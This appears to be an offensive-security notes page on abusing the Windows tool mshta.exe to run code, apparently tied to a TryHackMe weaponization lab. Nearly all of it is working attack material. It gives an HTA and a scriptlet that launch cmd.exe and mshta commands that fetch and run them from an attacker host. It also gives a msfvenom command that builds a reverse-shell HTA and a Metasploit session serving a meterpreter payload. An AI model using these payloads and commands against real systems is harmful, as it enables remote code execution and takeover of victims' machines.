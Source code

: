 # MSHTA


## Theroy
### An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

## Practice

{% tabs %}
{% tab title="Basic HTA" %}

In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```bash
#http://10.0.0.5/m.hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
We can now execute the script on the target machine
```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="scriptlet" %}
Writing a scriptlet file that will launch cmd.exe when invoked:

```bash
#http://10.0.0.5/m.sct
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	}
]]>
</script>
</scriptlet>
```

We can now execute the script on the target machine
```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endtab %}

{% tab title="msfvenom" %}

We can use the msfvenom framework to generate hta files.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f hta-psh -o m.hta
```
We can now execute the script on the target machine
```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="metasploit" %}

We can use the metasploit framework to generate hta files and directly serv it throught our webserver.

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```
On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution" %}
